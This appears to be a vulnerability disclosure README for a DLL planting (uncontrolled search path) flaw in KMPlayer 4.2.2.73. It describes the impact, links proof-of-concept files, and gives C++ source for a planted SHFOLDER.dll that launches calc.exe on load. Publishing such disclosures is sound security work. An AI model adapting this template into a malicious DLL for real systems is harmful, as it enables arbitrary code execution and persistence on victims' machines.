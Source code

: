# KMPlayer_Poc

## The name of an affected Product : 
KMPlayer x32

## Affected Version : 
KMPlayer_4.2.2.73(Latest)

## Product Address: 
https://www.kmplayer.com/pc

## Description : 
SHFOLDER.dll is missing so an attacker can use a malicious dll with same name and can get a admin privileges and also perform a way of persistence on the victim machine.

## Vulnerability type : 
CWE-427: Uncontrolled Search Path Element

## DLL planting vulnerability type : 
Current Working Directory (CWD) DLL planting 

## Impact : 
An attacker could exploit this vulnerability by placing a malicious DLL file on the targeted system. This file will execute when the vulnerable application launches. A successful exploit could allow the attacker to execute arbitrary code on the targeted system with SYSTEM PRIVILEGES as well the attacker can maintain persistence on the target system.

## POC files address : 
https://drive.google.com/file/d/1bdYaDmtWhnjaHkzv3bZ4PUSMzDJ8JjSV/view?usp=sharing
```bash
kmp32# tree
.
├── KMPlayer_4.2.2.73.exe
├── KMPlayer_poc.mp4
└── SHFOLDER.dll

```

## Poc code :
```C++
// dllmain.cpp
#include "pch.h"
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        system("calc.exe");
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
